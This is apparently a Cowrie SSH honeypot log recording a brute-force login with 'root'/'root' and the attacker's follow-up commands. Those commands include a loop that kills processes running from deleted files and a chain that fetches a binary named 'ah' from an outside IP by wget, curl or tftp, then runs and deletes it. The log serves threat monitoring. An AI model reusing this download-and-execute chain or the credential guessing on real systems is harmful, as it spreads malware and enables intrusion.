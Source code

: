 ```verilog
2023-11-30T01:42:04.944538Z [HoneyPotSSHTransport,45,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:05.336281Z [HoneyPotSSHTransport,45,204.76.203.13] login attempt: 4
2023-11-30T01:42:05.373678Z [HoneyPotSSHTransport,45,204.76.203.13] login attempt [b'admin'/b'123456'] failed
2023-11-30T01:42:06.452556Z [HoneyPotSSHTransport,45,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:42:06.453447Z [HoneyPotSSHTransport,45,204.76.203.13] Connection lost after 1 seconds
2023-11-30T01:42:06.528321Z [HoneyPotSSHTransport,46,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:06.603497Z [HoneyPotSSHTransport,46,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:06.955516Z [HoneyPotSSHTransport,46,204.76.203.13] login attempt: 5
2023-11-30T01:42:06.993253Z [HoneyPotSSHTransport,46,204.76.203.13] login attempt [b'root'/b'root'] succeeded
2023-11-30T01:42:06.994875Z [HoneyPotSSHTransport,46,204.76.203.13] Initialized emulated server as architecture: linux-x64-lsb
2023-11-30T01:42:07.264680Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: enable
2023-11-30T01:42:07.265628Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: enable 
2023-11-30T01:42:07.265865Z [HoneyPotSSHTransport,46,204.76.203.13] Reading txtcmd from "share/cowrie/txtcmds/bin/enable"
2023-11-30T01:42:07.342616Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: system
2023-11-30T01:42:07.343443Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command system
2023-11-30T01:42:07.343543Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: system
2023-11-30T01:42:07.344757Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: shell
2023-11-30T01:42:07.345442Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command shell
2023-11-30T01:42:07.345546Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: shell
2023-11-30T01:42:07.346481Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: sh
2023-11-30T01:42:07.346943Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: sh 
2023-11-30T01:42:07.348235Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: linuxshell
2023-11-30T01:42:07.348894Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command linuxshell
2023-11-30T01:42:07.349000Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: linuxshell
2023-11-30T01:42:07.354857Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: cd /tmp/; echo "senpai" > rootsenpai; cat rootsenpai; rm -rf rootsenpai
2023-11-30T01:42:07.355450Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: cd /tmp/
2023-11-30T01:42:07.355807Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo senpai > rootsenpai
2023-11-30T01:42:07.356814Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: cat rootsenpai
2023-11-30T01:42:07.357419Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: rm -rf rootsenpai
2023-11-30T01:42:07.457483Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: for dir in /proc/[0-9]*; do grep -q "(deleted)" "$dir/maps" && echo "Killing process with PID: $(basename $dir)" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah
2023-11-30T01:42:07.458423Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.459906Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.460015Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.460604Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.461305Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.461404Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.462372Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command for
2023-11-30T01:42:07.462472Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: for dir in /proc/ [ 0-9 ] *
2023-11-30T01:42:07.463164Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command deleted
2023-11-30T01:42:07.463262Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: deleted $dir/maps
2023-11-30T01:42:07.463781Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo Killing process with PID: 
2023-11-30T01:42:07.464210Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: kill -9 
2023-11-30T01:42:07.464521Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: done ;; rm -rf ah
```